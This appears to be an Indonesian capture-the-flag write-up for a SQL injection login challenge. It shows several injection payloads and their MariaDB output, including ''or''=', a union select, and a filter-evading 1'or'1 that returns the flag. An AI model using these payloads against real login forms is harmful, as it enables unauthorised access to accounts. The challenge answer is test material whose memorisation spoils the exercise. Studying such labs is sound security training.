 <h1><b>Basic SQL-5</h1></b>
<pre>
Login Form (Username & Password)
</pre>
</b><h3>Solution</h3></b>
<p>Lakukan injection sederhana <b>'or''='</b> yang akan me-return nilai 1(True) untuk username dan password, berikut eksekusi pada mysql dan form</p>

```mysql
MariaDB [CTF]> select * from SQL_Challenge6 where username=''or''='' and password=''or''='';
+----------+-----------------------------+
| username | password                    |
+----------+-----------------------------+
| admin    | *************************** |
+----------+-----------------------------+
1 row in set (0.000 sec)

MariaDB [CTF]> select ''or''='' and ''or''='';
+-------------------------+
| ''or''='' and ''or''='' |
+-------------------------+
|                       1 |
+-------------------------+
1 row in set, 5 warnings (0.000 sec)

```
<pre align='center'>
<b>Illegal Character Detected</b>
</pre>
<p>Ternyata hasilnya gagal dengan pesan diatas, yang memungkinkan terdapat filter string pada username dan password</p>
<p align='justify'>Selanjutnya, mari kita coba dengan injection tanpa tanda komentar "# atau -- -" yang akan membypass bagian password, dan berikut hasilnya</p>

```mysql
MariaDB [CTF]> select * from SQL_Challenge6 where username = 'admin';
+----------+-----------------------------+
| username | password                    |
+----------+-----------------------------+
| admin    | *************************** |
+----------+-----------------------------+
1 row in set (0.000 sec)
```
<pre align='center'>
<b>Illegal Character Detected</b>
</pre>
<p>Ternyata hasilnya masih sama dengan sebelumnya, juga terdapat filter</p>
<p>Sekarang mari kita coba dengan union injection "1' union select 1,2#" dan hasilnya masih sama</p>
<p align='justify'>Terakhir, dari beberapa filter yang terjadi, filter yang memungkinan yaitu [=,#,-- -,select], sekarang kita akan melakukan injection biasa tanpa string yang sudah difilter, dengan perintah <b>1'or'1</b> pada username dan password yang juga menghasilkan nilai 1(True). Berikut hasilnya</p>

```mysql
MariaDB [CTF]> select * from SQL_Challenge6 where username='1'or'1' and password='1'or'1';
+----------+-----------------------------+
| username | password                    |
+----------+-----------------------------+
| admin    | VenomCTF{4lm0st_a11_Filt3r} |
+----------+-----------------------------+
1 row in set (0.000 sec)

MariaDB [CTF]> select '1'or'1' and '1'or'1';
+-----------------------+
| '1'or'1' and '1'or'1' |
+-----------------------+
|                     1 |
+-----------------------+
1 row in set (0.000 sec)
```
<pre align='center'>
<b>Your login success
Welcome admin, Flag VenomCTF{4lm0st_a11_Filt3r}</b>
</pre>
<p>Hasilnya succes, ternyata string [',or] tidak terfilter oleh fungsi php</p>
</b><h3>Flag</h3></b>
<pre>
VenomCTF{4lm0st_a11_Filt3r}
</pre>
